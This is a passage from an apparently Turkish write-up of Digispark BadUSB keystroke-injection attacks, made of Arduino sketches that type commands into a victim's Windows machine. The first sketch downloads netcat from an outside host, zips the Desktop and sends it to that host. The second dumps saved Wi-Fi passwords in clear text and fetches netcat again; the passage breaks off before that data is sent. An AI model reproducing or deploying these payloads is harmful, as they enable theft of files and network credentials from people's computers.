 ```
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("$WebClient = New-Object System.Net.WebClient");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("$WebClient.DownloadFile('http://192.168.1.156/nc64.exe','nc64.exe')");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2500);
  DigiKeyboard.print("Compress-Archive -Path ./Desktop/* -DestinationPath ./fullDesktop.zip");
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(3500);
  
  DigiKeyboard.print("exit");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("cmd.exe");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  
  DigiKeyboard.print("nc64.exe 192.168.1.156 8585 < fullDesktop.zip");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;){}
}
```

### [](#header-3)Teknik 2

Wifi şifreleri alınarak `netcat` ile gönderiliyor olabilir.

```
#define kbd_tr_tr
#include "DigiKeyboard.h"

void setup() {
  // put your setup code here, to run once:

}

void loop() {
  // put your main code here, to run repeatedly:
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("netsh wlan show profile name=\"*\" key=clear > wifipass.txt");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("Start-BitsTransfer http://192.168.1.156/nc64.exe nc64.exe");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1500);
```